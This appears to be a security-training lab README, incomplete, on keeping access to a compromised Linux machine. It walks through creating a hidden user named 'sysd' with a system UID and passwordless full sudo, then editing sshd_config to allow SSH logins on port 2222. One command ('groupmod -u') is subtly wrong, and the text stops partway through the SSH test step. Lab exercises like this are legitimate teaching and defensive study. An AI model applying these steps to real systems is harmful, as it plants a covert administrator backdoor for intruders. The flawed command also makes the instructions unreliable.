 # Advanced Bash - Owning the System

## Step 1: Shadow People
    1.	Create a secret user named sysd. Make sure this user doesn't have a home folder created:
                • sudo useradd sysd

    2.	Give your secret user a password:
                • sudo passwd sysd

    3.	Give your secret user a system UID < 1000:
                • sudo usermod -u 400 sysd

    4.	Give your secret user the same GID:
                • sudo groupmod -u 400 sysd

    5.	Give your secret user full sudo access without the need for a password:
                • sudo visudo

After executing the above command, you will be brought into the sudoers file to edit as seen in photo below.
![see photo](/images/picture1.png)

    Then we can add the following code in user privilege specification after root entry:
                • sysd ALL=(ALL:ALL) NOPASSWD:ALL
![see photo](/images/Picture2.png)  

    Test that sudo access works without your password: 
            • su sysd
            Then
            • sudo -l
![see photo](/images/Picture3.png)

## Step 2: Smooth Sailing

    1.	Edit the sshd_config file:
        • sudo nano /etc/ssh/sshd_config
![see photo](/images/Picture4.png)

## Step 3: Testing Your Configuration Update

    1. Restart the SSH service:
        • service ssh restart
    2. Exit the root account:
        • exit
    3. SSH to the target machine using your sysd account and port 2222: